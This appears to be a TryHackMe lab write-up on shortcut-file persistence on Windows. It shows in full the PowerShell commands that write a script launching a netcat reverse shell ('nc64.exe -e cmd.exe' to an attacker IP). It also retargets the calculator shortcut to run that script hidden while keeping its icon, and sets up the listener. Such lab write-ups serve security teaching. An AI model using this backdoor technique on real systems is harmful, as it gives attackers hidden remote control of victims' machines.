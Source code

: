 
## Shortcut Files

1. Started up this room's machine
2. Opened up the compromised Windows machine's calculator properties window

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20New%20Properties.png)

3. `PowerShell` from the compromised Windows machine to open up PowerShell, which we'll then use to create a PowerShell (.ps1) script containing a payload that we'll use to connect back to our netcat listener that we'll later set up on our Linux machine, in the compromised machine's **C:\Windows\System32** directory
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
3.1 `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`

3.2 `$scriptContent = @"`

3.3 `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`

3.4 `C:\Windows\System32\calc.exe`

3.5 `"@` 

3.6 `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.210.65 9999"
>> C:\Windows\System32\calc.exe
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
>>
```
4. Change the calculator's target path to be 'powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT NAME>.ps1', which will stealthly execute our payload, and change back the calculator's icon back to its default icon to ensure that the user doesn't suspect a thing, since the icon will most likely change after changing it's target path

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20Properties%20Zoomed%20In.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20New%20Properties.png)

5. `nc -lvnp <PORT NUMBER>`  from our Linux attack machine to set up our netcat listener that'll listen for any inbound connections
```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
6. Click on the calculator on the compromised Windows machine, which ended up stealthly executing our payload allowing us to create a reverse shell that connected back to our netcat listener on our attack machine
